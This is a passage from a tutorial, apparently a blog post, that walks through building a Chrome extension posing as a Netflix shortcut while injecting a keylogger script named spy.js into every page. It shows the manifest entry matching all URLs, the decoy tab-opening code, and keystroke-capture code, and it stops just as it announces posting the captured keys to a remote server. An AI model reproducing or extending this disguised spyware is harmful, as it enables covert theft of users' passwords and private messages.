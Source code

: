 ```json
      "matches": ["<all_urls>"],
      "js": ["spy.js"]
    }
  ]
}
```

### `background.js`
As was mentioned above, `background.js` is where the legitimate part of our extension lives. We want our extension to open up Netflix when a user clicks the icon, so we need an event listener that creates a new tab. The code is straightforward and only ends up being 2 lines.

```javascript
window.chrome.browserAction.onClicked.addListener((activeTab) => {
  window.chrome.tabs.create({
    url: 'https://www.netflix.com/'
  })
})
```

We now have a fully functioning extension (without spyware) ready to put on the internet.

### `spy.js`
We are going to start by creating an event listener for when a user types. Javascript has three event listeners for when a user interacts with their keyboard; `onkeydown`, `onkeyup`, and `onkeypress`. There is a more formal definition of the difference on [Stack Overflow](https://stackoverflow.com/questions/3396754/onkeypress-vs-onkeyup-and-onkeydown), but I'll try to summarize a more practical version.

* `onkeydown` gets almost every keystroke, every non-input keys such as `shift`, `alt`, `control`. However, `onkeydown` can not tell the case of the keystroke. It is triggered when the key is first pressed down. It also catches multiple keystrokes if a user holds down the key.
* `onkeyup` also gets almost every keystroke including non-input keys and also cannot detect the case of the keystrokes. The only practical difference from `onkeydown` is that it triggered once the key is released, so it does not catch keystrokes caused by holding down a key.
* `onkeypress` triggers when the key is pressed down, just like `onkeydown`. Like  `onkeyup`, it does not detect when a user holds down a key. It is the only event that can detect the case of keystroke, but it is the only event that cannot detect button presses that are non-input.

We are creating our extension to be simple but effective as possible. Because character case is more valuable for our spyware than non-input keystrokes, we start our keylogger by using `onkeypress`. We are going to set the event to trigger an anonymous function, then log the key.

```javascript
document.onkeypress = (evt) => {
  let letter = String.fromCharCode(evt.keyCode)
  console.log(letter)
}
```

Now that the extension is “logging” all of a users keystroke on every page, it needs to send the keys to a remote server. We can do this by making a simple post request with a few lines of JavaScript to a server.
